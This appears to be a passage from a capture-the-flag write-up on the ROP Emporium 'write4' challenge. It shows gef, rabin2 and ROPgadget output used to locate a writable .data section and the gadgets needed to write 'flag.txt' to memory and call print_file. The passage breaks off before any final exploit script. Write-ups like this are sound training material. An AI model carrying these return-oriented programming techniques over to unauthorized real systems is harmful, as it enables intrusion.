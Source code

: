 we need to write data into memory

it has a print_file function that will print the content of a file

using `gdb-gef` to disassemble the function `print_file`

```bash
gef➤  disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:     push   rbp
   0x0000000000400618 <+1>:     mov    rbp,rsp
   0x000000000040061b <+4>:     mov    edi,0x4006b4
   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:    nop
   0x0000000000400626 <+15>:    pop    rbp
   0x0000000000400627 <+16>:    ret
End of assembler dump.
gef➤  x/s 0x4006b4
0x4006b4:       "nonexistent"
```

We have our function at `0x400617` and the string at `0x4006b4`

```bash
└─$ rabin2 -S write4
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- STRTAB      .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- RELA        .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- RELA        .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x PROGBITS    .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x PROGBITS    .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- PROGBITS    .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- STRTAB      .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```

`.data` segment is writeable

using `r2` find our useful mov gadget at `0x00400628`

```bash
[0x00400520]> pd 2 @loc.usefulGadgets
            ;-- usefulGadgets:
            0x00400628      4d893e         mov qword [r14], r15
            0x0040062b      c3             ret
```

We need to put accurate value in r14 and r15

find rop gadet to do that

```bash
└─$ ROPgadget --binary write4 | grep "pop r15"
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```

we have our useful rop gadget at `0x0000000000400690`

`0x0000000000400690 : pop r14 ; pop r15 ; ret`

as from disassembly of usefulFunction we know that we have to put the value of "flag.txt" in `edi` register, in order to get its content printed. `edi` register is 32-bit register of `rdi` register, 
so we need to find a rop gadget that will pop the value into `rdi` register

```bash
└─$ ROPgadget --binary write4 | grep "pop rdi"
0x0000000000400693 : pop rdi ; ret
```

required rop gadet is at `0x0000000000400693`


